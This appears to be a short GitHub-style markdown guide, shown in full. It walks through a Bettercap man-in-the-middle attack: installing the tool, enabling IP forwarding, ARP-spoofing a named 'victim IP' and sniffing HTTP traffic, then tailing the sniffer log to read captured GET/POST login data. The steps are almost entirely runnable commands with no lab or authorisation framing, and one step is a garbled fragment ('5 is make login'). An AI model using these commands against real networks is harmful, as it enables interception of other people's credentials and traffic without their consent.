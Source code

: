 
✅ 1. **Install Bettercap**
	~~~bash
sudo apt update
sudo apt install bettercap
~~~
### ✅ 2. **Enable IP Forwarding**

Temporarily:
~~~bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
~~~
Permanently:
~~~bash
sudo nano /etc/sysctl.conf
~~~

Uncomment or add this line:

~~~ini
net.ipv4.ip_forward=1
~~~
Then apply:
~~~bash
sudo sysctl -p
~~~
### ✅ 3. **Start Bettercap**

Find your network interface:
~~~bash
ip a
~~~
(Example: `wlan0`, `eth0`, etc.)

Run Bettercap:
~~~bash
sudo bettercap -iface wlan0  # replace wlan0 with your interface
~~~
✅ 4. **In the Bettercap Shell**
~~~bash
net.probe on
net.recon on
net.show                              # shows IPs of devices on network
set arp.spoof.targets 192.168.14.18   # victim IP
set arp.spoof.internal true
arp.spoof on
net.sniff on
~~~

5 is make login 

### ✅ 6. **View Captured HTTP Traffic**

From Ubuntu terminal:
~~~bash
tail -f ~/.bettercap.sniffer.log
~~~
You’ll see GET/POST data here (for HTTP, not HTTPS).


